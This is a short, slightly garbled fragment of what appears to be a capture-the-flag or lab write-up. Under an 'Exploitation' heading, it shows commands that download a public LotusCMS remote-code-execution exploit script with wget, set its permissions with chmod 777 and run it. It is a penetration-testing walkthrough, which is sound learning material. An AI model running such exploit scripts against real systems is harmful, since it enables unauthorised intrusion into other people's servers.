

Exploitation
wget  htps://raw.githubusercontent.com/Hood3dRob1n/LotusCMSExploit/master/lotusRCE.sh

hange the permission and run the script
chmod 777 lotusRCE.sh./lotusRCE.sh I got
the usage.